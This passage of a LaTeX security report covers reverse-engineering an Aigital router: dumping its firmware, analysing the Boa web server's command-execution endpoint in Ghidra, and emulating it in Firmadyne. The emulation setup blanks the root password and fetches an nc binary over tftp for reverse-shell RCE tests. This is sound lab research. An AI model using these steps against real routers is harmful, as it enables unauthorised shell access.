                
\includegraphics[width=0.5\textwidth]{../imgs/BY25D16AS/1.png}
                \caption{EEPROM Logic Diagram\cite{boya-micro}}
                \label{fig:logicDiagram}
            \end{figure}
            
    \section{Information Gathering}
        There isn't much information available about the device's manufacturer. The information that can be found online is mostly available on the Wayback Machine \cite{aigital.com}. From this information, it is clear that Aigital is a brand operated by a Chinese company based in Shenzhen: Shenzhen Zhuqiao Shuma Technology Co., Ltd \cite{registrazione}, whose products mainly include Bluetooth devices, antennas, and Wi-Fi devices \cite{aigital.com/gywm}.
        \\
        Although the device bears the FCC mark, we were unable to find any useful information about it on official websites such as \url{https://apps.fcc.gov/oetcf/eas/reports/GenericSearch.cfm} or unofficial ones such as \url{https://fccid.io} 
        \\
        While searching for information online, we immediately find several important results, one of which is Matteo Mandolini’s security analysis \cite{mandomat}, which identifies some very serious security vulnerabilities that have been assigned the CVEs mentioned earlier.
        \\ 
        However, we need to delve deeper into the information in the analysis in order to achieve our project objectives.
        \\
        
    \section{Software}
        To analyze how the router works, you need to obtain its firmware. However, as mentioned in the previous sections, the device does not provide any interface during the boot phase, making it necessary to dump the EEPROM memory.
        
        \subsection{Eeprom Dumping}
            To dump the EEPROM memory, we used a CH341A programmer with an SOIC clip. Initially, we attempted to dump the memory directly from the PCB. However, we noticed that when the programmer powered the EEPROM, it also powered the rest of the board, which caused excessive current draw and interference. We were therefore forced to desolder it in order to retrieve its contents.
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.9\textwidth]{../imgs/2.5-dumping_eeprom.jpeg}
                \caption{Dumping the EEPROM memory using SOIC clip}
                \label{fig:dumping_eeprom}
            \end{figure}
            As you can see in Figure~\ref{fig:dumping_eeprom}, we were forced to use the SOIC clip even after desoldering the EEPROM, since the EEPROM was too large for the socket we had.
            
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.9\textwidth]{../imgs/2.6-dump_iniziale_eeprom.png}
                \caption{EEPROM memory dump with flashrom command}
                \label{fig:dump}
            \end{figure}
            The dump (Figure~\ref{fig:dump}) was performed using the following command:
\begin{lstlisting}[language=bash]
sudo flashrom -p ch341a_spi -r eeprom_backup.bin
\end{lstlisting}
            Specifically:
        \begin{itemize}
            \item flashrom is a utility for reading, writing, erasing (and more) memory chips. It supports a wide range of protocols, including SPI, which is used by our \cite{flashrom} memory;
            \item -p is the option that specifies the programmer used for operations on the \cite{flashrom} memory chip; in our case, CH341A\_spi;
            \item -r is the option that specifies the destination file for the \cite{flashrom} memory read operation; in our case, eeprom\_backup.bin.
        \end{itemize}

        Then we analized with binwalk (Figure~\ref{fig:binwalk}) the binary that we extracted from EEPROM.
        \\
        Specifically, the binwalk analysis reveals that the firmware is divided into four blocks:
        \begin{itemize}
            \item 0x1310: small LZMA blob (approximately 17 KB compressed and 55 KB decompressed). Located immediately after the firmware header;
            \item 0x10010: 121 KB BZIP2 blob;
            \item 0x32818: 879 KB of compressed data that expands to approximately 3 MB of data, typical behavior for a compressed Linux kernel;
            \item 0x10A000: root filesystem of our device. Despite its size (128 KB), it appears to be complete.
        \end{itemize}        

        \begin{figure}[H]
            \centering
            
\includegraphics[width=0.9\textwidth]{../imgs/2.7-binwalk.png}
            \caption{Firmware extraction}
            \label{fig:binwalk}
        \end{figure}

        We then extracted everything using the -e option of binwalk, so that we could proceed with the analysis of the binaries contained within it.
        
        \subsection{Binary Analysis}

              After extracting the firmware, we started by inspecting the content of the recovered filesystem and the binaries involved in the web management interface. The most relevant executable for our analysis was
              the Boa web server, located at \emph{/bin/boa}.
              \\
              Boa is responsible for serving the administrative web interface and for dispatching the requests sent to the \emph{/boafrm/} endpoints. During the emulation phase, the HTTP headers confirmed that the
              server version used by the device is \emph{Boa/0.94.14rc21} \cite{mandomat}.
              \\
              BOA is a web server, ideal for use in embedded environments, created in 1995 and maintained until 2005. 
              Although it has not been maintained for more than two decades, it is still in use today.
              BOA suffers from a number of rather serious security vulnerabilities:
              \begin{itemize}
                  \item CVE-2017-9833: This vulnerability allows attackers to access arbitrary files on the server. It exploits the injection of "../.." using the FILECAMERA variable, enabling unauthorized file reading with root privileges.
                  \item CVE-2022-44117: This vulnerability allows SQL injection via the username parameter. However, it is disputed by some sources since Boa does not ship with SQL support.
              \end{itemize}
              However, since these vulnerabilities are not part of the project's original concept, we did not consider it necessary to investigate them further.
              \\
              The configuration file used by Boa was also found inside the root filesystem at \emph{/etc/boa/boa.conf}. The presence of this file was important because it allowed us to understand how the web server
              maps URLs to files and handlers. The static web pages were served from the web directory used by the firmware, while the dynamic operations were handled through specific endpoints under \emph{/boafrm/}.
              \\
              To identify the functions involved in the vulnerabilities, we analyzed the Boa binary with Ghidra. In particular, we focused on the handlers related to authentication and command execution. The endpoint \emph{/boafrm/formSysCmd} was especially relevant for the later RCE analysis, as its role was identified thanks to the information provided by the corresponding CVE documentation. \cite{mandomat}
              \\
              The corresponding client-side page was also present in the extracted web resources as \emph{webcmd.htm}. This page contains a form that submits a parameter called \emph{sysCmd} to the Boa handler:

\begin{lstlisting}[language=xml]
<form action=/boafrm/formSysCmd method=POST name="formSysCmd">
    <input type="text" name="sysCmd">
</form>
\end{lstlisting}

              This finding was relevant because it showed that command execution was an intended management feature in the original firmware. Whether access to this feature was correctly restricted is discussed in \cite{mandomat}.
              \\
              We also inspected the web pages used by the administrative interface. The login page was identified as \emph{login.htm}, and the login form submitted credentials to \emph{/boafrm/formLoginHtm}. The structure of the login request later allowed us to automate authentication during testing. The relevant fields are \emph{username}, \emph{password}, \emph{submit-value}, and \emph{lang\_select}.
              \\
              Another relevant part of the binary analysis concerned the relationship between Boa and the Realtek configuration libraries. Several web pages and Boa handlers depend on Realtek-specific NVRAM/MIB
              functions. These functions are provided by libraries such as \emph{/lib/libapmib.so}. During the analysis, this dependency became important because many crashes observed in Firmadyne were caused not by
              Boa itself, but by incomplete emulation of this configuration layer.
              \\
              The Boa binary was therefore analyzed in two ways:
              \begin{itemize}
                  \item statically, with Ghidra, to identify relevant handlers and code paths;
                  \item dynamically, during Firmadyne execution, to observe which requests triggered sockets, handlers, crashes, or command execution.
              \end{itemize}

              The screenshots below (Figure~\ref{fig:boaGhidra}) shows the function of the Boa binary opened in Ghidra, highlighting the specific function responsible for triggering the RCE vulnerability, which will be analyzed in detail in Chapter 4.


          \begin{figure}[H]
                \centering
                
\includegraphics[width=0.9\textwidth]{../imgs/2.8-Boa_ghidra.png}
                \caption{Boa binary analyzed with Ghidra}
                \label{fig:boaGhidra}
            \end{figure}

              At this stage of the project, the binary analysis gave us three essential pieces of information:
              \begin{itemize}
                  \item the web server used by the device is Boa;
                  \item the authentication and command execution logic is implemented through Boa handlers;
                  \item the web interface depends heavily on Realtek-specific configuration functions.
              \end{itemize}

              These observations guided both the exploitation phase and the later patching phase.

          \subsection{Firmware Emulation}
              \label{sec:firmware emulation}

              After the hardware problems described in the introduction, we continued the analysis by emulating the firmware. The goal was not only to boot the extracted filesystem, but also to obtain a working
              environment where the web server and the relevant vulnerabilities could be tested.
              \\
              We used Firmadyne to emulate the firmware in a QEMU-based MIPS environment. Since the device is based on a Realtek platform, we used the MIPS big-endian configuration.
              \\
              The extracted root filesystem was packed into a Firmadyne-compatible archive:

\begin{lstlisting}[language=bash]
tar --numeric-owner -czf firmadyne/images/1.tar.gz \
    -C tentativo_dimensione/squashfs-root .
\end{lstlisting}

              The emulated disk image was then created with:

\begin{lstlisting}[language=bash]
cd firmadyne
sudo ./scripts/makeImage.sh 1 mipseb
\end{lstlisting}

              Finally, the firmware was started interactively with \emph{./scripts/run.mipseb.interactive.sh 1}.
              \\
              In order to make the firmware usable during emulation, we modified the startup configuration. The root account in \emph{/etc/passwd} was configured with an empty password field:

\begin{lstlisting}[language=bash]
root::0:0:root:/:/bin/sh
\end{lstlisting}

              Moreover, \emph{/etc/inittab} was modified so that the system spawns a shell directly:

\begin{lstlisting}[language=bash]
::respawn:-/bin/sh
\end{lstlisting}

              These changes were introduced only to simplify the emulation workflow. They allowed us to access the emulated firmware shell directly and configure the environment required for the tests.
              \\
              Once the firmware was running, the network had to be configured manually. We assigned the emulated firmware the same IP address used by the original web interface. The configuration was performed inside
              Firmadyne with the following commands:

\begin{lstlisting}[language=bash]
mkdir -p /proc
mount -t proc proc /proc
ifconfig eth0 192.168.10.253 netmask 255.255.255.0 up
route add default gw 192.168.10.100
\end{lstlisting}

               On the host side, the TAP interface used by QEMU/Firmadyne was configured manually. We brought the interface up, removed any previous address, and assigned the host address used throughout the tests:

\begin{lstlisting}[language=bash]
sudo ip link set qemu-tap0 up
sudo ip addr flush dev qemu-tap0
sudo ip addr add 192.168.10.100/24 dev qemu-tap0
\end{lstlisting}

                This placed the host machine and the emulated firmware in the same subnet. With this configuration, the emulated firmware could communicate with the host at \emph{192.168.10.100}. This was necessary
                for HTTP access to the web interface, ICMP testing, TFTP transfers, and reverse shell connections.

                For example, the \emph{nc} binary used during the RCE tests was transferred with:

\begin{lstlisting}[language=bash]
cd /tmp
tftp -g -l /tmp/nc -r nc 192.168.10.100
chmod +x /tmp/nc
\end{lstlisting}

              A major objective of the emulation was to run the original Boa web server. After the initial boot, we verified that Boa was running with \emph{ps | grep boa}. From the host machine, the web server was
              reachable at \emph{http://192.168.10.253/}. We checked the HTTP server with \emph{curl -I http://192.168.10.253/}, and the response confirmed that the emulated firmware was serving the web interface
              through \emph{Boa/0.94.14rc21}.

              During this phase, we discovered that simply running the original web application was not enough. Several pages caused segmentation faults because they relied on Realtek-specific NVRAM/MIB values that
              Firmadyne did not emulate correctly. The errors were typically related to calls performed through \emph{libapmib.so} or through internal Boa handlers that expected valid configuration data from the
              device.

              For this reason, before using the emulated firmware for the exploitation tests, we created a stabilized version of the original Boa binary. This version was not meant to fix the vulnerabilities under
                analysis, but only to make the original web server usable inside Firmadyne.

                During the first emulation attempts, Boa crashed when some authenticated pages triggered Realtek-specific MIB/NVRAM access paths. These crashes were caused by missing or incomplete configuration
                structures in the emulated environment, not by the CVEs themselves. The serial output showed repeated segmentation faults after requests to web pages that queried configuration values through the Realtek
                libraries.

                To avoid confusing emulation failures with security behavior, we patched only the Boa code paths responsible for those Firmadyne-specific crashes. The vulnerable command execution handler was
